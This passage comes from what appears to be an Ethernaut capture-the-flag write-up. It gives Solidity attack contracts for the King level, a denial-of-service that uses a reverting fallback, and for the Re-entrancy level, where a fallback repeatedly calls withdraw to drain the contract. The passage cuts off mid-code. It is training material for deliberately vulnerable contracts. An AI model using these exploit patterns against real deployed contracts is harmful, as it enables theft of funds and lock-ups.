 Attack Payload:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.17;

contract Solution {
    constructor() public payable {
        // this address is the address of your level instance contract
        address payable contractAddr = 0xDFE781807B2668D44BaB804e8cb5c4D685Ab2eff;
        address(contractAddr).call.value(msg.value)("");
    }
    
    function() external payable {
        revert("lmao sucks");
    }
}
```

In the 3rd line of vulnerable function it's sending the ether to the previous king and than set highest ether sender user as king. In our attack contract when the vulnerable contract will try to send ether for setting new king. Our contract will revert that and other user will never be able to become king




# 10. [Challenge 10: Re-entrancy](https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D)

Tasks:
- The goal of this level is for you to steal all the funds from the contract.

**Solution:** \
Vulnerable Code:
```
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

Attack Payload:
```
pragma solidity ^0.6.10;

import './Reentrance.sol';

contract EthernautReentrancyAttack {
    Reentrance target; 
    
    constructor(address payable _targetAddr) public payable {
        target = Reentrance(_targetAddr);
    }
    
    function donateToTarget() public {
        target.donate.value(1000000000000000).gas(4000000)(address(this)); //need to add value to this fn
    }
    
    fallback() external payable {
        if (address(target).balance != 0 ) {
            target.withdraw(1000000000000000); 
```